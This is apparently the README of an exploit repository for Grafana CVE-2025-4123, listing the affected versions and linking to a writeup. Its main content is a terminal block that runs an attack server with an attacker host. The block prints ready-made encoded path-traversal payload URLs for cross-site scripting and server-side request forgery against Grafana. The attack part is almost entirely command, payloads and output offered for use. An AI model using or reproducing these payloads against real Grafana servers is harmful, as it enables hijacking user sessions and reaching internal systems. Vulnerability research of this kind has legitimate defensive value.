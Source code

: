 # Grafana CVE-2025-4123 Exploit

> **CVE ID:** [CVE-2025-4123](https://grafana.com/blog/2025/05/21/grafana-security-release-high-severity-security-fix-for-cve-2025-4123/)
>
> **Severity:** High
>
> **Impact:** Server-Side Request Forgery (SSRF), Cross-Site Scripting
>
> **Affected Versions:** Grafana 11.2, Grafana 11.3, Grafana 11.4, Grafana 11.5, Grafana 11.6, Grafana 12.0
>
> **Full Writeup** [Writeup](https://nightbloodz.github.io/grafana-CVE-2025-4123/)
>

```bash
❯ sudo python server.py --host http://127.0.0.1

[+] Using attacker host: http://127.0.0.1

[+] XSS Route: /a/..%2f..%2f..%2fpublic%2f..%252f%255C127.0.0.1%252f%253Fp%252f..%252f..%23/explore
[+] SSRF Route: /render/public/..%252f%5Chttp://127.0.0.1%252f%3F%252f..%252f..

 * Serving Flask app 'server'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://192.168.100.2:80
Press CTRL+C to quit
```
